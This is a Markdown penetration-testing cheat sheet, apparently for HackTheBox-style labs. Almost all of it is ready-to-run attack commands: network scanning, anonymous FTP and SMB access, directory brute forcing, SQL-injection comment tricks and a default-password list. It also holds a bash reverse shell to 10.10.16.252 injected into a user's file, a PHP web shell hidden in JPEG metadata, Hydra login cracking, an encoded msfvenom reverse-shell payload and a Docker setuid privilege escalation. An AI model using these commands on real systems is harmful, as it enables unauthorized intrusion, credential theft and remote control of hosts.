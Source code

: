 # Usefull Commands

## Search for up hosts
```bash
nmap -sn 10.129.150.229
```

## Search for port and service Version
```bash
nmap -sV -p 80 10.129.150.229
```

## Fast Search for common ports
```bash
nmap -F 10.129.150.229
```

## Uses common scripts with Scan
nmap -sC 10.129.155.61

## FTP with anonymous account
```bash
ftp 10.129.150.226
Connected to 10.129.150.226.
220 (vsFTPd 3.0.3)
Name (10.129.150.226:kali): anonymous
331 Please specify the password.
Password: (Password can be anything)
```

## Access SMB unauthenticated
```bash
mbclient -L 10.129.150.229 -U " "%" "
smbclient \\\\10.129.150.229\\WorkShares -U " "%" "
```

## RDP with xfreerdp
```bash
xfreerdp -u:Administrator -v:10.129.150.233
```

## Enumerate Dir Busting
```bash
gobuster dir -u http://10.129.150.236/ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://10.129.155.61/ -w /usr/share/wordlists/dirb/common.txt -x php
```

## SQL Injection with PHP
admin'# will comment code in PHP
for example when set out like below
```php
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

## Connect to SQL
```bash
sql -u root -h 10.129.150.236
```

## Common Passwords
|username|password|
|---|---|
|admin|admin123|
|admin|root123|
|admin|password1|
|admin|administrator1|
|admin|changeme1|
|admin|password123|
|admin|qwerty123|
|admin|administrator123|
|admin|changeme123|
|admin|admin|
|guest|guest|
|user|user|
|root|root|
|administrator|password|

## Initiate bash from reverse shell with python
python3 -c "import pty;pty.spawn('/bin/bash')"

## Inject reverse shell into file owned by a user
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.252/1234 0>&1' #" >> hackers

## Kerberos Enumeration
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

## HTTP Brute Forcing
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

## RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET
```
### list shares
```bash
smbclient -L //$TARGET -U ""
```

### null session
```bash
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

## SMTP User Enumeration
```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Injecting PHP into JPEG
```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

## Cracking Web Forums with Hydra
```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

## Cracking Common Protocols with Hydra
```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

## MSFVenom 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

## Cracking ZIP files
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

## Docker Priv Esclation
```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

